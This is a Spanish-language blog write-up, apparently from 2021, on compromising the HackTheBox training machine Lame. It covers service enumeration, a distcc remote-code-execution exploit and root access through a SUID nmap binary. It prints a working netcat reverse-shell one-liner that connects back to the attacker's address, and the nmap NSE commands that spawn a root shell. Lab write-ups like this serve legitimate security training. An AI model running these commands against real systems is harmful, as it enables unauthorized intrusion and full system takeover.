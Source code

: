 ```yaml
---
layout: single
title: Lame (HackTheBox) - WriteUp (by blu3ming)
excerpt: "Writeup de la máquina Lame de la plataforma HackTheBox. Nota: Puede incluir fallos y rabbit holes, los cuales se especifican, con el objetivo de que el lector no cometa los mismos errores que yo. Se recomienda leer el artículo completo antes de seguirlo al pie de la letra."
date: 2021-05-30
classes: wide
header:
  teaser: /assets/images/lame-writeup/lame.webp
  teaser_home_page: true
categories:
  - Writeup
tags:
  - HackTheBox
  - Writeup
  - Guia
---
```


[https://www.hackthebox.eu/home/machines/profile/1](https://www.hackthebox.eu/home/machines/profile/1)

+ Verificamos con una traza ICMP el sistema operativo al que nos enfrentamos. Vemos que es una máquina Linux (TTL aprox. de 64).

	![1]
	
+ Si realizamos un escaneo con ayuda de nmap, veremos que en el servidor se encuentran habilitados cinco servicios: un FTP, un SSH, un SMB y un DISTCC (este último se emplea en el cómputo distribuido).
  
    ``nmap -sS --min-rate 5000 -p- --open -vvv -n -Pn 10.10.10.3 -oG allPorts``
	
	![2]

+ Si realizamos un escaneo con ayuda de scripts básicos de enumeración, veremos que el servicio FTP corre con ayuda de un vsftpd versión 2.3.4.

    ![3]
	
	![4]
    
+ Como nos reportó el análisis anterior, el servicio FTP también acepta logueo de usuario anónimo, por lo que intentamos entrar con estas credenciales. Vemos que nos lo permite, sin embargo, la carpeta de dicho servicio se encuentra vacía.

    ![5]
    
+ Si intentamos ahora listar los recursos compartidos del servicio SMB, veremos que hay dos carpetas: **tmp** y **opt**.

	``smbclient -L 10.10.10.3 -N``

    ![6]
    
	Si entramos con una Null Session al servicio, y listamos los archivos contenidos dentro de el primer recurso compartido encontrado, el cual es **tmp**, veremos un par de ficheros.
    
    ![7]
    
	Si intentamos acceder al segundo recurso compartido que encontramos, veremos que no tenemos acceso a este por medio de la null session.

    ![8]
    
	Dada esta situación, solamente nos enfocamos en los ficheros encontrados en el recurso compartido al que obtuvimos acceso. Por desgracia, su contenido no nos resulta de utilidad.

    ![9]
	
	Nada relevante por aquí.
    
+ Nuestro siguiente objetivo es ver si la versión y servicio FTP cuentan con alguna vulnerabilidad conocida. Vemos que sí, se trata de un backdoor que nos permite ejecución remota de comandos.
    
    ![10]
    
	Por desgracia, cuando intentamos correr este exploit, veremos que no funciona. El objetivo de este es obtener una reverse shell.

    ![11]
    
+ Buscamos ahora otro exploit que nos permita explotar la misma vulnerabilidad, y en nuestra búsqueda nos encontramos con un script en Github.
    
    ![12]
    
	Por desgracia, este script tampoco funcionó, por lo que se deduce que la vulnerabilidad debe estar parchada de alguna forma en el servidor remoto.

+ Nos enfocamos ahora en el siguiente servicio encontrado en el puerto 3632, el cual es DISTCC. Vemos que este cuenta con una vulnerabilidad reportada, por lo que buscamos el exploit para vulnerar la máquina.

    ![13]
    
	De igual manera, esta vulnerabilidad nos permite ejecución remota de comandos en el servidor, solo es necesario pasarle como parámetro el comando a ejecuta. Como podemos ver, el servidor responde ante una ejecución whoami.

    ![14]
    
+ Dado que hay una respuesta positiva para esta ejecución de comandos, ahora intentamos entablarnos una reverse shell a nuestro equipo.

	``python exploit.py -t 10.10.10.3 -p 3632 -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 443 >/tmp/f"``

    ![15]

    ![16]
	
	Vemos que el comando se ejecuta correctamente, ya que nuestra sesión de netcat recibe la conexión de parte del servidor.
    
+ Con esta sesión interactiva, ya podemos interactuar directamente con el servidor. Primero listamos la flag de usuario.

    ![17]
    
+ Nuestro siguiente objetivo es la escalada de privilegios. Primero, iniciamos por listar permisos SUID en el sistema. Vemos que el binario nmap tiene este permiso habilitado.
    
    ![18]
    
+ Si buscamos en GTFOBINS, veremos una forma de explotar dicho permiso. Por desgracia, no nos ayuda en la escalada de privilegios.

    ![19]
    
+ Si seguimos buscando en internet, veremos que podemos emplear este permiso para spawnear una shell como usuario administrador de la siguiente manera:
	
    ![20]
    
+ Ejecutamos los comandos tal y como nos son presentados, y como podemos observar, el binario nmap spawnea una bash como el usuario root.

	Básicamente lo que hace es crear un script personalizado de nmap en formato nse que, al ser llamado dentro del comando nmap, spawnea dicha bash. Se confirma con ayuda del comando whoami.
    
	```
	TF=$(mktemp)
	echo 'os.execute("/bin/sh")' > $TF
	/usr/bin/nmap localhost --script=$TF
	```
    
	![21]
    
+ Por último, únicamente nos resta listar la flag de usuario root. Con esto, hemos comprometido correctamente la máquina.

	![22]
	
+ **Nota:** Si en cuanto recibimos una shell interactiva por medio de netcat, realizamos un tratamiento de la TTY, podremos explotar el permiso SUID de nmap iniciando el modo interactivo de este. Una vez dentro, podemos escapar comandos con ayuda de “!”, por lo que solamente tenemos que llamar a una bash y listo, tendremos una sesión como el usuario root.

	![23]
    
[1]:/assets/images/lame-writeup/1.png
[2]:/assets/images/lame-writeup/2.png
[3]:/assets/images/lame-writeup/3.png
[4]:/assets/images/lame-writeup/4.png
[5]:/assets/images/lame-writeup/5.png
[6]:/assets/images/lame-writeup/6.png
[7]:/assets/images/lame-writeup/7.png
[8]:/assets/images/lame-writeup/8.png
[9]:/assets/images/lame-writeup/9.png
[10]:/assets/images/lame-writeup/10.png
[11]:/assets/images/lame-writeup/11.png
[12]:/assets/images/lame-writeup/12.png
[13]:/assets/images/lame-writeup/13.png
[14]:/assets/images/lame-writeup/14.png
[15]:/assets/images/lame-writeup/15.png
[16]:/assets/images/lame-writeup/16.png
[17]:/assets/images/lame-writeup/17.png
[18]:/assets/images/lame-writeup/18.png
[19]:/assets/images/lame-writeup/19.png
[20]:/assets/images/lame-writeup/20.png
[21]:/assets/images/lame-writeup/21.png
[22]:/assets/images/lame-writeup/22.png
[23]:/assets/images/lame-writeup/23.png